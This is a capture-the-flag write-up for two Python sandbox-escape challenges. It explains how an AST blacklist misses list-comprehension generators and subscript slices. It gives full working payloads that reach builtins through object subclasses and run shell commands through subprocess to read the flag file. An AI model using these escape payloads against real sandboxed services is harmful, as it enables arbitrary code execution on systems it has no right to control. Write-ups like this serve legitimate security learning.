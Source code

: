 # PySandbox 1 (misc, 121p, 52 solved)

```
nc pwn1.chal.ctf.westerns.tokyo 30001
```

In the challenge we get access to server which executes provided python code, as long as it passed the [sandbox](sandbox.py).
The sandbox parses the code into AST and then blacklists function calls and attribute access.
So we can for example execute `1+1` or `[1,2,3]` but we can't do `print(1)` or `list('abc')` or `[].len`.

To make it a bit easier to debug locally, we can simply add `print(repr(node))` at the start of `check(node)` function.
This way we will see how the expression we provide was parsed to AST.

The trick here is to notice that the structure used to traverse the AST tree is not complete.
It's visible when compared to the string documenting the tree structure.

For example we can see:

```
 | ListComp(expr elt, comprehension* generators)
 | SetComp(expr elt, comprehension* generators)
 | DictComp(expr key, expr value, comprehension* generators)
```

But in the attributes to parse AST there is only:

```
'ListComp': ['elt'],
'SetComp': ['elt'],
'DictComp': ['key', 'value'],
```

This means that `ListComp` node has parameter `comprehension* generators` which is not checked by the sandbox!

We can verify this simply by sending `[1 for x in [eval('1+1')]]` which shows:

```
[<_ast.Expr object at 0x02938ED0>]
<_ast.Expr object at 0x02938ED0>
<_ast.ListComp object at 0x02938EF0>
<_ast.Num object at 0x02938F10>
```

As expected, the parser did not go into `generators` attribute of `ListComp`, and we could freely invoke code there.
Here for some reason we assummed that `builtins` won't be available (like when you exploit template injections), so we used a classis attribute chain to find `builtins` reference and import function.

We used chain: `().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']`

So the final payload was:

```
[1 for x in [eval("sys.stdout.write(repr([t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']('subprocess').check_output('cat flag', shell=True)))")]]
```

And there was `flag` file in the directory: `TWCTF{go_to_next_challenge_running_on_port_30002}`

# PySandbox 2 (misc, 126p, 48 solved)

The second part of the challenge looks very similar, but the vector we used to attack before is patched here.
The idea stays the same, we just need to find another vector, and we find one:

```
| Subscript(expr value, slice slice, expr_context ctx)
```

vs.

```
'Subscript': ['value'],
```

So the list subscript is not validated by the sandbox.
This means now we can just do `[1,2][0 if eval('1+1') is not None else 1]` and we get:

```
[<_ast.Expr object at 0x02648EF0>]
<_ast.Expr object at 0x02648EF0>
<_ast.Subscript object at 0x02648F10>
<_ast.List object at 0x02648F30>
[<_ast.Num object at 0x02648F50>, <_ast.Num object at 0x02648C70>]
<_ast.Num object at 0x02648F50>
<_ast.Num object at 0x02648C70>
1
```

As expected, the check did not venture inside the subscript code, and again we can invoke anything there.
We just re-use the same chain and grab the second flag with:

```
[1,2][0 if eval("sys.stdout.write(repr([t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']('subprocess').check_output('cat flag', shell=True)))") is None else 1]
```

And this gives us: `TWCTF{baby_sandb0x_escape_with_pythons}`
